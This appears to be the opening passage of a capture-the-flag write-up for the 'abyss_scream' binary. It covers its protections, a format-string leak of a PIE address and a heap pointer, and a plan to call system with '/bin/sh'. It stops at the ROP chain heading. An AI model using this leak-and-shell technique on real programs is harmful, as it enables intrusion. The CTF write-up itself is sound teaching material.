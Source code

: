 The only complication with this challenge is that it has NX, PIE and Full RELRO:
```
pwndbg> checksec
[*] '/home/vm/Downloads/lakectf/abyss/abyss_scream'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

This means that we need the following conditions satisfied for successful exploitation:
1. NX -> adequate ROP chain
2. PIE -> address leak

## Address leak

The address leak part is fairly simple since `save_msg` function contains a format string vulnerability:
```
$ ./abyss_scream 
Scream into the abyss and see how long it takes for you to get a response ;)Current iteration: 0
Enter input: x
You can now scream a longer message but before you do so, we'll take your name: my name
Saved score of 0 for my name. Date and Time: Sun Nov  5 08:43:10 PM CET 2023
Now please add a message: %lx%lx%lx%lx%lx%lx%lx%lx%lx
Your message:
117fda0f255140558dd6e516cc0588006c25786c25786c2525786c25786c2578
Current iteration: 0
Enter input: 
```

In gdb, there are useful things available on the stack:
```
22:0110│     0x7fffffffe020 —▸ 0x7fffffffe168 —▸ 0x7fffffffe447 ◂— '/home/vm/Downloads/lakectf/abyss/abyss_scream'
23:0118│     0x7fffffffe028 —▸ 0x555555559ac0 ◂— 0x656d616e20796d /* 'my name' */
24:0120│ rbp 0x7fffffffe030 —▸ 0x7fffffffe050 ◂— 0x1
25:0128│     0x7fffffffe038 —▸ 0x55555555539e (main+128) ◂— mov dword ptr [rbp - 4], 0
```

Around `rbp`, there are two interesting addresses to leak:
- "name" stored on the heap
- `main+128`

The `main+128` is interesting because we can leak the address of the `main` function and use the value further to calculate offsets of other functions which is leveraged in our ROP gadget. The "name" stored on the heap is another interesting thing since we can use it as a ready-made `"/bin/sh"` string for our `system` call - more on that later.

So the initial idea is as follows:
- scream a longer message and leak the heap address where we will store `/bin/sh`
- additionally leak `main+128` and calculate the address of `main`

## Building the ROP chain
